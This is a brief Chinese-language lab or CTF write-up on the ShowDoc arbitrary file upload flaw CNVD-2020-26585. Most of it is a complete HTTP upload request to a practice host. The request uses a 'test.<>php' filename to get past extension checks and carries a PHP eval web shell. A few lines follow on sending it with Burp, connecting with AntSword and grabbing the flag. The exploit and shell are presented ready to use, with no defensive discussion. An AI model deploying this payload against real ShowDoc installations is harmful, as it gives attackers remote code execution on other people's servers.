


## showdoc 文件上传（cnvd-2020-26585）

ShowDoc一个非常适合IT团队的在线[API](https://so.csdn.net/so/search?q=API&spm=1001.2101.3001.7020)文档、技术文档工具。 api_page存在任意文件上传

有一个页面存在任意文件上传

payload：

POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: vulfocus.fofa.so:57700 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 265

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo '123';@eval($_POST[cmd])?>
----------------------------921378126371623762173617--

burp抓包 发送

回显上传文件地址

蚁剑连接：

拿到flag